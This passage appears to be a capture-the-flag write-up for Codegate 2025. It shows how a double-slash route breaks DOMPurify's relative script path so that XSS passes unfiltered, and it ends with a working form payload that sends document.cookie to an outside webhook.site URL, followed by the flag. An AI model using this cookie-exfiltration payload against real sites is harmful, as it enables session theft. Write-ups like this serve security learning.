 However, the `try/catch` block jumps out, in such a small file, this make it seem intentional, especially when our XSS is not `DOMurify.sanitize` when there is an error.

# Relativity

`DOMPurify.sanitize` does not throw any errors, since worst comes to worst it will still output `""` unless configured otherwise. There is another way to kill, and that is by removing the `DOMPurify` object completely. This sounds crazy but it is possible, especially since it is included in the _relative_ path `../js/purify.min.js`. If we could just access this same site with another route, we can effectively break this path.

This turned out to be a lot easier than expected. All we need is to include an additional slash, going to the route `/admin/test/`. That extra slash resulted in the path resolving to `/admin/test` instead of `/test` in the express backend, meaning instead of pointing to `/js/purify.min.js`, we access `/admin/js/purify.min.js`. `DOMPurify` now returns 404 and we get our unfiltered XSS.

Payload: `/admin/test/?content=<script>alert(1);</script>`

![](/codegate25quals/admin_test_xss.png)

# Final Payload

```html
<link rel="stylesheet" href="/css/switch.css" />
<form action="/admin/test/">
  <input
    type="hidden"
    name="content"
    value="<img src=x onerror=location.href=`https:\/\/webhook.site\/26d62c0b-fd91-4f30-9f78-152de98c1012?t=${document.cookie}`>"
  />
  <button type="submit" class="slider"></button>
</form>
```

We add the `/` to the form action as well as our XSS attack in the post, and we obtain our jwt with the flag:

`codegate2025{16a7eeb64ec6b150c9308509a039cec0c137dfd766ef13ccb8d6d9e0cf54aef3}`
